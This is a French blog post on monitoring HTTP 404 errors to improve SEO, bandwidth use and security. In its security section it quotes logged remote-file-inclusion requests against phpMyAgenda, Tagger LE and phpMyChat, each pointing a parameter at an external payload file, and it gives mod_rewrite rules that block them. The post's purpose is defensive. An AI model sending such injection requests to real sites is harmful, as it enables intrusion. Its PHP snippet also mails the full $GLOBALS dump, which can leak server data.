 ```yaml
---
title:      Surveillez vos erreurs 404, elles peuvent être très instructives
lang:       fr
tags:       [erreur 404, SEO, sécurité, webperf]
---
```


A l’heure où tout le monde ne jure que par l’optimisation du référencement — on dit Search Engine Optimization, ou SEO, pour faire branché — afin d’augmenter son trafic, et ainsi ses clients potentiels et/ou son revenu publicitaire, qui se soucie de vérifier ce qui se passe pour les internautes qui arrivent bien sur le site, mais sur une page qui n’existe pas, indiquée comme il se doit par une erreur HTTP 404[^erreur404] ?

[^erreur404]: Oui, c’est la règle, mais certains ne la respectent pas, bien entendu...

Si vous ne vous en souciez pas, commencez tout de suite à le faire, il y a beaucoup à apprendre, et sans doute beaucoup d’améliorations à apporter à votre site.

Le moyen le plus simple de connaître les URL en erreur 404 sur lesquelles arrivent les internautes, c’est d’abord de s’intéresser à celles qui sont référencées dans les moteurs de recherche, dont Google. On peut trouver justement un référencement des pages en erreur, dont celles en 404, au sein des [outils Google pour les webmasters](https://www.google.com/webmasters/tools/).

<figure>
  ![](google-webmasters-404.png)
  <figcaption>Erreurs 404 de Gastero Prod référencées par Google</figcaption>
</figure>

Une autre méthode plus basique et source potentielle d’explosion de compte mail est de se faire envoyer un mail à chaque requête donnant une erreur. C’est ce que j’ai fait dans mon squelette `404.html` pour Gastero Prod, en donnant au passage quelques informations utiles de contexte d’appel :

```php
<?php
mail('adresse@example.com',
        '[GP404] '.$_SERVER['REQUEST_URI'],
        '#URL_SITE_SPIP'.$_SERVER['REQUEST_URI']."\r\n".'User agent: '.$_SERVER['HTTP_USER_AGENT']."\r\n".'Referer: '.$_SERVER['HTTP_REFERER']."\r\n".print_r($GLOBALS, true),
        'From: adresse@example.com');
}
?>
```

Identifier les erreurs 404 permet d’améliorer un site sur plusieurs sujets :

# La qualité du référencement

Si un internaute arrive sur votre site depuis un moteur de recherche, et tombe sur une erreur 404, c’est qu’il y a un soucis dans votre référencement, sans doute parce que votre site ou un autre site contient des liens qui pointent vers ces mauvaises URL, liens qui existent :

- soit par simple erreur de frappe, ce qu’un bon [outil de gestion de contenus Web](http://www.clever-age.com/veille/clever-link/les-outils-de-gestion-de-contenu.html) devrait permettre d’éviter,
- soit parce que vous avez modifié vos URL, ce qu’il ne faut surtout [pas faire](http://www.w3.org/Provider/Style/URI) !,
- soit parce que des URL déterminées et gérées automatiquement sont mal configurées.

En observant les erreurs 404 relevées par Google, j’ai pu corriger de nombreux problèmes apparus sur Gastero Prod, notamment avec le petit changement opéré sur les URL[^url] pour que les articles du blog ne soient plus à la racine mais dans une sous rubrique blog/ et surtout un mélange entre URL absolues et URL relative, pas encore totalement bien gérées dans SPIP avec des URL arborescentes.

[^url]: Oui, je sais, c’est mal, mais j’ai mis des redirections permanentes au moins, moi ! ;-)

Il n’y a bien entendu pas que le nettoyage des erreurs 404 qui permet d’améliorer la qualité du référencement, mais c’est un autre sujet...

# Les performances, la consommation de bande passante, et donc potentiellement le coût de l’hébergement

Si vous faites en sorte de diminuer les erreurs 404 sur votre site, quelles qu’en soit les causes, les internautes ne téléchargeront que les pages réellement intéressantes, et vous réduirez le gaspillage de ressources de votre serveur, ainsi que la bande passante consommée.

Selon la nature de votre hébergement, cela peut avoir un impact — positif à priori — sur son coût, ce qui peut s’avérer intéressant comme motivation.

# La sécurité

Vous pouvez aussi identifier, dans les erreurs 404, des attaques essayant de profiter de failles de sécurité de solutions packagées.

Par exemple, un requête revenant ces derniers temps dans mes logs de 404 est la suivante :

```
http://www.gasteroprod.com/infoevent.php3?rootagenda=http://love-ma2.t35.com/sistem.txt?
```

En cherchant `infoevent.php3` sur Google, j’ai découvert qu’il s’agit d’un script faisant justement l’objet d’[une faille de sécurité de phpMyAgenda](http://www.securityfocus.com/bid/29164).

Comme par hasard, le client ayant fait cette requête n’est pas un navigateur traditionnel, mais s’identifie comme étant `libwww-perl/5.803`. C’est donc bien un programme qui tente l’attaque, sauf falsification de signature qui serait ici inepte.

Autre exemple avec cette requête :

```
http://www.gasteroprod.com//tags.php?BBCodeFile=http://guhit.com/img/id.txt?
```

Requête qui correspond à [une faille de sécurité de Tagger LE](http://www.securityfocus.com/bid/19464), et qui est demandée comme par hasard aussi par un client `libwww-perl/5.812` !

Dernier exemple avec cette requête :

```
http://www.gasteroprod.com//chat/users_popupL.php3?From=http://www.covoiturage.fr/communities/arab.txt??
```

Requête qui correspond à [une faille de sécurité de phpMyChat](http://osvdb.org/39224)[^pmc], et qui est demandée comme par hasard une fois de plus par un client `libwww-perl/5.805` !

[^pmc]: Oups oups oups ! :-(

Je tiens à signaler aux hackers qui me liraient que je n’utilise aucune de ces applications, ni aucune des nombreuses autres auxquelles s’adressent les autres attaques que je subi...

Faudrait-il donc refuser systématiquement toute requête signée par `libwww-perl` ?

En tout cas, vous pouvez déjà refuser les requêtes clairement identifiables comme des attaques brutales, par exemple comme ceci si vous avez le module `mod_rewrite` pour Apache :

```
# Bloquer certaines attaques brutales pas fines
# http://www.securityfocus.com/bid/19464
RewriteCond %{QUERY_STRING} &?BBCodeFile=([^&]+)
RewriteRule tags\.php - [F,L]
# http://www.securityfocus.com/bid/29164
RewriteCond %{QUERY_STRING} &?rootagenda=([^&]+)
RewriteRule infoevent\.php3 - [F,L]
# http://osvdb.org/39224
RewriteCond %{QUERY_STRING} &?From=([^&]+)
RewriteRule users_popupL\.php3 - [F,L]
```

Voilà, vous êtes prévenus, n’ignorez plus vos erreurs 404, agissez !
